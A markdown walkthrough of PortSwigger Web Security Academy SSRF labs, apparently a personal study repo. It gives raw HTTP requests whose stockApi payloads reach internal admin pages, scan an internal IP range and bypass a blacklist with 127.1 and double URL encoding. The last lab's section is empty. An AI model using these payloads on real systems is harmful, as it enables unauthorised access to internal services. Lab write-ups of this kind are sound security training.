


# BurpSuite Labs - Server Side Request Forgery

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#payloads-with-localhost

## Basic SSRF against the local server

### Enunciation

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

### Solution

```
POST /product/stock HTTP/2
Host: 0a1600f6034ecb0581760c6200e30093.web-security-academy.net
Cookie: session=nQDGMiUWrUCVsa4ZXP4RoToYgd4biWt5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1600f6034ecb0581760c6200e30093.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
Origin: https://0a1600f6034ecb0581760c6200e30093.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http%3A%2F%2Flocalhost%2Fadmin%2Fdelete?username=carlos
```


1. Browse to `/admin` and observe that you can't directly access the admin page.
2. Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
3. Change the URL in the `stockApi` parameter to `http://localhost/admin`. This should display the administration interface.
4. Read the HTML to identify the URL to delete the target user, which is:
    
    `http://localhost/admin/delete?username=carlos`
    
1. Submit this URL in the `stockApi` parameter, to deliver the SSRF attack.


## Basic SSRF against another back-end system

### Enunciation

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.

### Solution

Launch a scan request with intruder

```
POST /product/stock HTTP/2
Host: 0a81003a04cbb66585aa2164005e00d9.web-security-academy.net
Cookie: session=ukVLJOQMDp5wqxujhaw2c21t5Xt8XcYq
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a81003a04cbb66585aa2164005e00d9.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a81003a04cbb66585aa2164005e00d9.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://192.168.0.§1§:8080/admin/
```


Now we know that the address is http://192.168.0.16:8080/admin/, so we can send the delete request for user carlos.

```
POST /product/stock HTTP/2
Host: 0a81003a04cbb66585aa2164005e00d9.web-security-academy.net
Cookie: session=ukVLJOQMDp5wqxujhaw2c21t5Xt8XcYq
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a81003a04cbb66585aa2164005e00d9.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Origin: https://0a81003a04cbb66585aa2164005e00d9.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://192.168.0.16:8080/admin/delete?username=carlos
```




1. Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Intruder.
2. Click "Clear §", change the `stockApi` parameter to `http://192.168.0.1:8080/admin` then highlight the final octet of the IP address (the number `1`), click "Add §".
3. Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
4. Click "Start attack".
5. Click on the "Status" column to sort it by status code ascending. You should see a single entry with a status of 200, showing an admin interface.
6. Click on this request, send it to Burp Repeater, and change the path in the `stockApi` to: `/admin/delete?username=carlos`


## SSRF with blacklist-based input filters

### Enunciation

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

### Solution

```
POST /product/stock HTTP/2
Host: 0a7700f4041232118111d52d000100ab.web-security-academy.net
Cookie: session=zdzvJtvkFadrRM96wa1vXhMF7G2zfSkN
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7700f4041232118111d52d000100ab.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://0a7700f4041232118111d52d000100ab.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://127.1/%25%36%31dmin
```


Now we know that we need to use the filters: 

- 127.1
- double url encoding of "a" character in the word 'admin.'

so we can send the delete request for user carlos.

```
POST /product/stock HTTP/2
Host: 0a7700f4041232118111d52d000100ab.web-security-academy.net
Cookie: session=zdzvJtvkFadrRM96wa1vXhMF7G2zfSkN
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7700f4041232118111d52d000100ab.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://0a7700f4041232118111d52d000100ab.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://127.1/%25%36%31dmin/%25%36%34elete?username=carlos
```




1. Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
2. Change the URL in the `stockApi` parameter to `http://127.0.0.1/` and observe that the request is blocked.
3. Bypass the block by changing the URL to: `http://127.1/`
4. Change the URL to `http://127.1/admin` and observe that the URL is blocked again.
5. Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user.


## SSRF with filter bypass via open redirection vulnerability

### Enunciation

### Solution
